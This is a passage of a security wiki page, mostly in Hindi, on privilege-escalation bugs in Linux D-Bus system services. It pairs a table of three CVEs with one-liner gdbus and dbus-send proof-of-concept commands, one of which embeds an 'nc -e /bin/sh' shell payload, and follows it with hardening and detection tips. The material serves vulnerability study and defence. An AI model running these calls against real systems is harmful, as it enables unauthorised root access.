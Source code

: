 
## Notable D-Bus Privilege-Escalation Bugs (2024-2025)

हाल ही में प्रकाशित CVEs पर नज़र रखना कस्टम कोड में समान असुरक्षित पैटर्न को पहचानने में मदद करता है। निम्नलिखित उच्च-प्रभाव वाले स्थानीय EoP मुद्दे सभी **system bus** पर प्रमाणीकरण/अधिकार की कमी से उत्पन्न होते हैं:

| वर्ष | CVE | घटक | मूल कारण | One-Liner PoC |
|------|-----|-----------|------------|---------------|
| 2024 | CVE-2024-45752 | `logiops` ≤ 0.3.4 (Logitech HID डेमॉन) | `logid` सिस्टम सेवा एक अनियंत्रित `org.freedesktop.Logiopsd` इंटरफेस को उजागर करती है जो *किसी भी* उपयोगकर्ता को डिवाइस प्रोफाइल बदलने और मैक्रो स्ट्रिंग्स के माध्यम से मनमाने शेल कमांड इंजेक्ट करने की अनुमति देती है। | `gdbus call -y -d org.freedesktop.Logiopsd -o /org/freedesktop/Logiopsd -m org.freedesktop.Logiopsd.LoadConfig "/tmp/pwn.yml"` |
| 2025 | CVE-2025-23222 | Deepin `dde-api-proxy` ≤ 1.0.18 | एक रूट-चलने वाला प्रॉक्सी पुराने बस नामों को बैकएंड सेवाओं की ओर अग्रेषित करता है **बिना कॉलर UID/Polkit संदर्भ को अग्रेषित किए**, इसलिए हर अग्रेषित अनुरोध UID 0 के रूप में माना जाता है। | `gdbus call -y -d com.deepin.daemon.Grub2 -o /com/deepin/daemon/Grub2 -m com.deepin.daemon.Grub2.SetTimeout 1` |
| 2025 | CVE-2025-3931 | Red Hat Insights `yggdrasil` ≤ 0.4.6 | सार्वजनिक `Dispatch` विधि में कोई ACLs नहीं हैं → हमलावर *पैकेज-मैनेजर* कार्यकर्ता को मनमाने RPMs स्थापित करने का आदेश दे सकता है। | `dbus-send --system --dest=com.redhat.yggdrasil /com/redhat/Dispatch com.redhat.yggdrasil.Dispatch string:'{"worker":"pkg","action":"install","pkg":"nc -e /bin/sh"}'` |

ध्यान देने योग्य पैटर्न:
1. सेवा **system bus पर रूट के रूप में चलती है**।
2. कोई PolicyKit जांच नहीं (या इसे एक प्रॉक्सी द्वारा बायपास किया गया है)।
3. विधि अंततः `system()`/पैकेज स्थापना/डिवाइस पुनः कॉन्फ़िगरेशन की ओर ले जाती है → कोड निष्पादन।

`dbusmap --enable-probes` या मैनुअल `busctl call` का उपयोग करें यह पुष्टि करने के लिए कि क्या एक पैच उचित `polkit_authority_check_authorization()` लॉजिक को बैक-पोर्ट करता है।

---

## Hardening & Detection Quick-Wins

* विश्व-लिखने योग्य या *send/receive*-खुले नीतियों की खोज करें:
```bash
grep -R --color -nE '<allow (own|send_destination|receive_sender)="[^"]*"' /etc/dbus-1/system.d /usr/share/dbus-1/system.d
```
* खतरनाक विधियों के लिए Polkit की आवश्यकता – यहां तक कि *root* प्रॉक्सी को `polkit_authority_check_authorization_sync()` को अपने स्वयं के PID के बजाय *caller* PID को पास करना चाहिए।
* लंबे समय तक चलने वाले सहायक में विशेषाधिकार छोड़ें (बस से कनेक्ट करने के बाद namespaces को स्विच करने के लिए `sd_pid_get_owner_uid()` का उपयोग करें)।
* यदि आप एक सेवा को हटा नहीं सकते हैं, तो कम से कम इसे एक समर्पित Unix समूह तक *scope* करें और इसकी XML नीति में पहुंच को प्रतिबंधित करें।
* ब्लू-टीम: `busctl capture --output=/var/log/dbus_$(date +%F).pcap` के साथ सिस्टम बस की स्थायी कैप्चर सक्षम करें और विसंगति पहचान के लिए Wireshark में आयात करें।

---

## References

- [https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)
- [https://security.opensuse.org/2025/01/24/dde-api-proxy-privilege-escalation.html](https://security.opensuse.org/2025/01/24/dde-api-proxy-privilege-escalation.html)


- [https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

{{#include ../../banners/hacktricks-training.md}}
